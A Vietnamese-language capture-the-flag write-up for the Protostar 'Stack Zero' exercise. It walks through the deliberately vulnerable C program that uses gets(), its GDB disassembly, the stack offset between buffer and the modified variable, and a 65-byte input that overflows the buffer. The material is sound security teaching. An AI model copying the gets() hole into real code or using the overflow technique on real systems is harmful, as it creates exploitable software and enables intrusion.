 ## Stack0
- Challenge: https://exploit.education/protostar/stack-zero/
- Tải virtual machine machine: https://github.com/ExploitEducation/Phoenix/releases/download/v1.0.0-alpha-3/exploit-education-phoenix_1.0.0_amd64.deb
- Đầu tiên import file iso của protostar vào virtual machine, đăng nhập bằng credentials: `user:user`
- Chạy lệnh `/sbin/ifconfig` để lấy địa chỉ IP và SSH vào
- Nếu gặp lỗi `Unable to negotiate with 192.168.1.15 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss` thì thêm option `-oHostKeyAlgorithms=+ssh-dss`
```
ssh -oHostKeyAlgorithms=+ssh-dss user@192.168.1.15
```
- source code C:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
- Goal là ta phải ghi đè được biến `modified`
- Dùng GDB `disass main`, chạy `set disassembly-flavour intel` để xem syntax intel asm, nó sẽ đỡ hơn syntax AT&T:
```asm 
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave  
0x08048434 <main+64>:   ret    
```
- Đặt break point ở main `(gdb) b main`, rồi run `r`, execution flow sẽ dừng ở địa chỉ `0x080483fd <main+9>`. Gdb sẽ bỏ qua phần stack alignment từ offset `+0` đến `+6`, nếu muốn dừng ngay tại `+0` ta có thể dùng `b *main` (gdb sẽ hiểu là **break tại địa chỉ của main**, thay vì **break tại hàm main**)
- Để ý dòng `0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0`
- Tại đây đang chuyển giá trị 0 vào ô stack `esp+0x5c`, đối chiếu với code C ta có thể thấy đó là dòng `modified = 0;` => `esp+0x5c` là địa chỉ của biến  `modified`
- Trong code C thì nơi ta có thể ghi input vào là tại dòng 11:
```c
gets(buffer);
```
- `gets` là một hàm nguy hiểm, nó sẽ không biến được biến đích rộng bao nhiêu, nó sẽ lấy toàn bộ input đưa vào biến đích, dẫn đến ghi đè vùng nhớ kề bên => buffer overflow
- Ta chỉ có thể ghi đè được các biến nằm phía trên của biến `buffer`, nên ta sẽ phải kiểm tra xem `modified` có nằm ở trên `buffer` không, nhìn vào asm:
```asm 
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
```
- Thấy trước khi gọi đến `gets` thì địa chỉ của `esp+0x1c` được đưa vào thanh ghi `eax`, đoán rằng đây là biến `buffer`, chạy `p ($esp+0x1c) - ($esp+0x5c)` ra kết quả `-64`, thêm với dữ kiện là stack đi từ địa chỉ cao về địa chỉ thấp => `modified` nằm ở địa chỉ cao hơn `buffer`
- Ta cũng biết thêm một điều là biến `modified` và `buffer` cách nhau 64 bytes, nghĩa là nếu ta truyền 64 bytes vào buffer thì byte thứ 65 sẽ được ghi vào `modified` => solved
- Dùng python tạo ra 64 chữ "A", input vào chương trình:
```
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | ./stack0
Try again?
$ 
```
- Lần này tạo 65 chữ "A":
```
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | ./stack0
you have changed the 'modified' variable
$ 
```
